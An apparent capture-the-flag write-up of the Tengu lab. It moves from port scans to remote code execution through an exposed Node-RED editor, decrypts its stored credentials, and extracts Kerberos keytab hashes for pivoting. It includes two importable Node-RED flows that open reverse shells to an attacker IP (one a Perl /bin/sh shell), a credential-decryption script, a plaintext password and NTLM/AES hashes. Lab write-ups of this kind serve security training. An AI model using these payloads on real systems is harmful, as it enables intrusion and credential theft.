








As usual i will start by checking traces of open services over the common UDP ports without finding anything so far.

```bash
└─$ nmap -F -sU 10.13.38.40
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-17 14:01 +0100
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 15.17% done; ETC: 14:02 (0:00:34 remaining)
Nmap scan report for 10.13.38.40
Host is up (0.025s latency).
All 100 scanned ports on 10.13.38.40 are in ignored states.
Not shown: 60 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 57.17 seconds

```

Next turn goes to the TCP counterpart where except the SSH I see a custom service of some sort.

```bash
PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:a2:62:65:84:f4:ec:5b:a8:a8:a3:8f:83:a3:96:27 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL2hpU6weYtD62S/8lWglrpgVR1GLLqFIQbdV6/FDnmRNlpXO5yUq7Nfziu3FnxyAk7lTv0FlC9wtod6LQitly8=
|   256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE22Ek7XHADfVvm3ESrxEr6Eif+lyyaEb8LfCO8Z3rP+
1880/tcp open  vsat-control? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1736
|     ETag: W/"6c8-alK4HUX6EE46WSbf+286KDcADEI"
|     Date: Tue, 17 Mar 2026 13:04:54 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0"/>
|     <meta name="apple-mobile-web-app-capable" content="yes">
|     <meta name="mobile-web-app-capable" content="yes">
|     <!--
|     Copyright OpenJS Foundation and other contributors, https://openjsf.org/
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, sof
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,PUT,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Tue, 17 Mar 2026 13:04:54 GMT
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1880-TCP:V=7.98%I=7%D=3/17%Time=69B95176%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,79C,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-Origin:\x2
SF:0\*\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x201736\r\nETag:\x20W/\"6c8-alK4HUX6EE46WSbf\+286KDcADEI\"\r\nDate:\x20
SF:Tue,\x2017\x20Mar\x202026\x2013:04:54\x20GMT\r\nConnection:\x20close\r\
SF:n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n<meta\x20charset=\"utf-8\">\n<
SF:meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=edge\"\x20/>\n<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1,\x20maximum-scale=1,\x20user-scalable=0\"/>\n<meta\x20name=\"appl
SF:e-mobile-web-app-capable\"\x20content=\"yes\">\n<meta\x20name=\"mobile-
SF:web-app-capable\"\x20content=\"yes\">\n<!--\n\x20\x20Copyright\x20OpenJ
SF:S\x20Foundation\x20and\x20other\x20contributors,\x20https://openjsf\.or
SF:g/\n\n\x20\x20Licensed\x20under\x20the\x20Apache\x20License,\x20Version
SF:\x202\.0\x20\(the\x20\"License\"\);\n\x20\x20you\x20may\x20not\x20use\x
SF:20this\x20file\x20except\x20in\x20compliance\x20with\x20the\x20License\
SF:.\n\x20\x20You\x20may\x20obtain\x20a\x20copy\x20of\x20the\x20License\x2
SF:0at\n\n\x20\x20http://www\.apache\.org/licenses/LICENSE-2\.0\n\n\x20\x2
SF:0Unless\x20required\x20by\x20applicable\x20law\x20or\x20agreed\x20to\x2
SF:0in\x20writing,\x20sof")%r(HTTPOptions,DF,"HTTP/1\.1\x20204\x20No\x20Co
SF:ntent\r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Allow-Met
SF:hods:\x20GET,PUT,POST,DELETE\r\nVary:\x20Access-Control-Request-Headers
SF:\r\nContent-Length:\x200\r\nDate:\x20Tue,\x2017\x20Mar\x202026\x2013:04
SF::54\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,DF,"HTTP/1\.
SF:1\x20204\x20No\x20Content\r\nAccess-Control-Allow-Origin:\x20\*\r\nAcce
SF:ss-Control-Allow-Methods:\x20GET,PUT,POST,DELETE\r\nVary:\x20Access-Con
SF:trol-Request-Headers\r\nContent-Length:\x200\r\nDate:\x20Tue,\x2017\x20
SF:Mar\x202026\x2013:04:54\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(RPCC
SF:heck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/17%OT=22%CT=%CU=41115%PV=Y%DS=2%DC=T%G=N%TM=69B9517B
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 30.358 days (since Sun Feb 15 05:28:45 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   22.94 ms 10.10.14.1
2   23.84 ms 10.13.38.40


```

# Node RED

Now the custom port seems a Redhat orchestrator of some sort, I remember seeing this in another CTF many years ago:  


Now the version is not known to common attacks so i gurss I need to abuse the exec function in order to get a working RCE:  


Now, the current flow has also a connection to the DB where I don't have access to far:



So I asked some guidance to Gemini and It told me to add an exec node  


But here I took inspiration from an old challenge "Reddish" from 2019 and by using this Json code:

```json
[
    {
        "id": "3f7824bc.483a94",
        "type": "tab",
        "label": "Shell",
        "disabled": false,
        "info": ""
    },
    {
        "id": "9754e73a.fb7f5",
        "type": "tcp request",
        "z": "3f7824bc.483a94",
        "name": "",
        "server": "10.10.14.105",
        "port": "4444",
        "out": "sit",
        "ret": "buffer",
        "splitc": " ",
        "newline": "",
        "trim": false,
        "tls": "",
        "x": 520,
        "y": 80,
        "wires": [
            [
                "df9367ea.2fd12"
            ]
        ]
    },
    {
        "id": "df9367ea.2fd12",
        "type": "exec",
        "z": "3f7824bc.483a94",
        "command": "",
        "addpay": true,
        "append": "",
        "useSpawn": "false",
        "timer": "",
        "oldrc": false,
        "name": "",
        "x": 170,
        "y": 240,
        "wires": [
            [
                "7cd3aeef.1a522"
            ],
            [
                "7cd3aeef.1a522"
            ],
            []
        ]
    },
    {
        "id": "6a48f346.ccad1c",
        "type": "inject",
        "z": "3f7824bc.483a94",
        "name": "",
        "repeat": "",
        "crontab": "",
        "once": false,
        "onceDelay": 0.1,
        "topic": "",
        "payload": "> ",
        "payloadType": "str",
        "x": 191.5,
        "y": 50,
        "wires": [
            [
                "9754e73a.fb7f5"
            ]
        ]
    },
    {
        "id": "7cd3aeef.1a522",
        "type": "template",
        "z": "3f7824bc.483a94",
        "name": "results + prompt",
        "field": "payload",
        "fieldType": "msg",
        "format": "handlebars",
        "syntax": "mustache",
        "template": "{{{payload}}}\n> ",
        "output": "str",
        "x": 440,
        "y": 240,
        "wires": [
            [
                "9754e73a.fb7f5"
            ]
        ]
    }
]
```

You can get something similar:



Which get's you a shell when injecting the enter node:



Now the issue is that this shell is broken as hell as shown here:

```bash
└─$ nc -lnvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.105] from (UNKNOWN) [10.13.38.40] 33870
> id
uid=1001(nodered_svc) gid=1001(nodered_svc) groups=1001(nodered_svc)

> home

> /bin/bash: line 1: home: command not found

> ls

> pwd
/opt/nodered

> ls /
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swapfile
sys
tmp
usr
var

> whoami
nodered_svc

> ls /home
labadmin
nodered_svc
tengu.vl

> tree /home

> /bin/bash: line 1: tree: command not found

> cd /home

> ls

> ls /home
labadmin
nodered_svc
tengu.vl

```

Now again from the same challenge is to use a perl based revshell instead like this code:

```json
[
    {
        "id": "6fe6b87a.30d988",
        "type": "tab",
        "label": "Reverse_TCP",
        "disabled": false,
        "info": ""
    },
    {
        "id": "6caeb9ad.e39468",
        "type": "inject",
        "z": "6fe6b87a.30d988",
        "name": "4444",
        "props": [
            {
                "p": "payload"
            },
            {
                "p": "topic",
                "vt": "str"
            }
        ],
        "repeat": "",
        "crontab": "",
        "once": false,
        "onceDelay": 0.1,
        "topic": "",
        "payload": "4444",
        "payloadType": "str",
        "x": 150,
        "y": 160,
        "wires": [
            [
                "97f946aa.853548"
            ]
        ]
    },
    {
        "id": "97f946aa.853548",
        "type": "exec",
        "z": "6fe6b87a.30d988",
        "command": "perl -e 'use Socket;$i=\"10.10.14.105\";$p=",
        "addpay": "payload",
        "append": ";socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'",
        "useSpawn": "false",
        "timer": "",
        "winHide": false,
        "oldrc": false,
        "name": "perl rev shell",
        "x": 350,
        "y": 160,
        "wires": [
            [
                "e2dba6a9.bb9fe8"
            ],
            [
                "e2dba6a9.bb9fe8"
            ],
            []
        ]
    },
    {
        "id": "e2dba6a9.bb9fe8",
        "type": "debug",
        "z": "6fe6b87a.30d988",
        "name": "",
        "active": true,
        "tosidebar": true,
        "console": false,
        "tostatus": false,
        "complete": "false",
        "x": 570,
        "y": 160,
        "wires": []
    }
]
```

Looking like the following:  


But even here it didn't worked out so instead I called a second shell withing the same:


# Pillaging around

Now I was able to obtain the password saved from the MSSQL server?

```bash
nodered_svc@nodered:~/.node-red$ ll -al
ll -al
total 192
drwxr-xr-x   4 nodered_svc nodered_svc  4096 Mär 17 14:29 ./
drwxr-x---   4 nodered_svc nodered_svc  4096 Mär 25  2024 ../
-rw-r--r--   1 nodered_svc nodered_svc 15792 Mär 10  2024 .config.nodes.json
-rw-r--r--   1 nodered_svc nodered_svc 15162 Mär 10  2024 .config.nodes.json.backup
-rw-r--r--   1 nodered_svc nodered_svc   133 Mär 10  2024 .config.runtime.json
-rw-r--r--   1 nodered_svc nodered_svc    40 Mär 10  2024 .config.runtime.json.backup
-rw-r--r--   1 nodered_svc nodered_svc   661 Mär 10  2024 .config.users.json
-rw-r--r--   1 nodered_svc nodered_svc   541 Mär 10  2024 .config.users.json.backup
-rw-r--r--   1 nodered_svc nodered_svc   163 Mär 10  2024 flows_cred.json
-rw-r--r--   1 nodered_svc nodered_svc   191 Mär 10  2024 .flows_cred.json.backup
-rw-r--r--   1 nodered_svc nodered_svc  6937 Mär 17 14:29 flows.json
-rw-r--r--   1 nodered_svc nodered_svc  4955 Mär 17 14:29 .flows.json.backup
drwxr-xr-x   3 nodered_svc nodered_svc  4096 Mär 10  2024 lib/
drwxr-xr-x 123 nodered_svc nodered_svc  4096 Mär 10  2024 node_modules/
-rw-r--r--   1 nodered_svc nodered_svc   199 Mär 10  2024 package.json
-rw-r--r--   1 nodered_svc nodered_svc 75838 Mär 10  2024 package-lock.json
-rw-r--r--   1 nodered_svc nodered_svc 23200 Mär 10  2024 settings.js
nodered_svc@nodered:~/.node-red$ cat flows_cred.json
cat flows_cred.json
{
    "$": "7f5ab122acc2c24df1250a302916c1a6QT2eBZTys+V0xdb7c6VbXMXw2wbn/Q3r/ZcthJlrvm3XLJ8lSxiq+FAWF0l3Bg9zMaNgsELXPXfbKbJPxtjkD9ju+WJrZBRq/O40hpJzWoKASeD+w2o="
}nodered_svc@nodered:~/.node-red$ cat .flows_cred.json.backup
cat .flows_cred.json.backup
{
    "$": "aaf1095c59f3e8923aaba94f9a334213FfcRfVk7nduziitg8IWJ7vGzrR+YDe+Z0LPlgvpOU3s74v6yHsR4mdwpum0l0WDzQ+1HMdRJLj3eavF93oKtSgYpxhp2/VCaE8k9R0isPQ5lvMdrw/rfVheFc6fYk5Da/+qnRm/9IM91Yw=="
}nodered_svc@nodered:~/.node-red$ 


```

Now apparently Gemini suggest to find the encryption secret that was used to encrypt this one, which can be found here:

```bash
nodered_svc@nodered:~/.node-red$ cat .config.runtime.json
cat .config.runtime.json
{
    "instanceId": "e8a268b474281aa4",
    "_credentialSecret": "dee5c9fb0287ad39bac9f29bfe6f3adb4be9826f135eb6da91de0d013bd6799b"
}nodered_svc@nodered:~/.node-red$ 


```

Now gemini gave me this code to decrypt:

```bash
nodered_svc@nodered:~/.node-red$ node -e '
const crypto = require("crypto");
const fs = require("fs");
const secret = "dee5c9fb0287ad39bac9f29bfe6f3adb4be9826f135eb6da91de0d013bd6799b";
const creds = JSON.parse(fs.readFileSync("flows_cred.json", "utf8"));
const data = creds["$"];
const key = crypto.createHash("sha256").update(secret).digest();
const iv = Buffer.from(data.substring(0, 32), "hex");
const ciphertext = data.substring(32);
const decipher = crypto.createDecipheriv("aes-256-ctr", key, iv);
let decrypted = decipher.update(ciphertext, "base64", "utf8") + decipher.final("utf8");
console.log(JSON.stringify(JSON.parse(decrypted), null, 4));
'node -e '
> const crypto = require("crypto");
> const fs = require("fs");
<9bac9f29bfe6f3adb4be9826f135eb6da91de0d013bd6799b";
> const creds = JSON.parse(fs.readFileSync("flows_cred.json", "utf8"));
> const data = creds["$"];
> const key = crypto.createHash("sha256").update(secret).digest();
> const iv = Buffer.from(data.substring(0, 32), "hex");
> const ciphertext = data.substring(32);
> const decipher = crypto.createDecipheriv("aes-256-ctr", key, iv);
<ertext, "base64", "utf8") + decipher.final("utf8");
> console.log(JSON.stringify(JSON.parse(decrypted), null, 4));
> 
'
{
    "d237b4c16a396b9e": {
        "username": "nodered_connector",
        "password": "DreamPuppyOverall25"
    }
}
nodered_svc@nodered:~/.node-red$ 

```

I feel now it is time to move forward with the Pivoting.

# Pivoting

Now I am aware what is the next subnet:

```bash
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:d0:a6 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.13.38.40/24 brd 10.13.38.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:fe94:d0a6/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:fe94:d0a6/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:46:8d brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    altname ens192
    inet 192.168.50.240/24 brd 192.168.50.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:468d/64 scope link 

```

And a quick ping swep shows which one are the missing servers(OBS: the .240 is the internal endpoint on the RED server and it should be ommitted):

```bash
─$ fping -asqg 192.168.50.0/24 
192.168.50.10
192.168.50.12
192.168.50.240

     254 targets
       3 alive
     251 unreachable
       0 unknown addresses

    1004 timeouts (waiting for response)
    1007 ICMP Echos sent
       3 ICMP Echo Replies received
       0 other ICMP received

 23.4 ms (min round trip time)
 25.9 ms (avg round trip time)
 28.4 ms (max round trip time)
        9.721 sec (elapsed real time)

```

And now I have also the list of the machines.

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb 192.168.50.10             
SMB         192.168.50.10   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb 192.168.50.12
SMB         192.168.50.12   445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl) (signing:False) (SMBv1:None)

```

I will move on to the MSSQL sever for now.

# Getting the Ticket

Now with the creds of the Tier 2 account I am indeed root:



I can grab the first flag:

```bash
root@nodered:~# cat root.txt 
TENGU{37cf99e2b2785d6094af246637bb4b3e}
root@nodered:~# 


```

And this is the file I need to decrypt it:

```bash
root@nodered:/etc# cat krb5.keytab 
TENGU.VNODERED$f|_�!��
                      �6��M�ITENGU.VNODERED$f|_>��a�,'��
                                                        8_TENGU.VNODERED$f|_ L�X�"8��%Eb$�R]R\5>�����TENGU.VLhostNODEREDf|_�!��
                                                                                                                               �6��M�ITENGU.VLhostNODEREDf|_>��a�,'��
                                                                                                                                                                     8_TENGU.VLhostNODEREDf|_ L�X�"8��%Eb$�R]R\5>�����TENGU.VLRestrictedKrbHostNODEREDf|_�!��
                                                                                                                                                                                                                                                             �6��M�ITENGU.VLRestrictedKrbHostNODEREDf|_>��a�,'��
                                                                                                                                                                                                                                                                                                                8_TENGU.VLRestrictedKrbHostNODEREDf|_ L�X�"8��%Eb$�R]R\5>�����root@nodered:/etc# 


```

And now I have the keys to the machine account:

```bash
└─$ python3 keytabextract.py /home/user/Downloads/Tengu/krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
    REALM : TENGU.VL
    SERVICE PRINCIPAL : NODERED$/
    NTLM HASH : d4210ee2db0c03aa3611c9ef8a4dbf49
    AES-256 HASH : 4ce11c580289227f38f8cc0225456224941d525d1e525c353ea1e1ec83138096
    AES-128 HASH : 3e04b61b939f61018d2c27d4dc0b385f

```

Next, the GMSA can be obtained via Netxec:

```bash
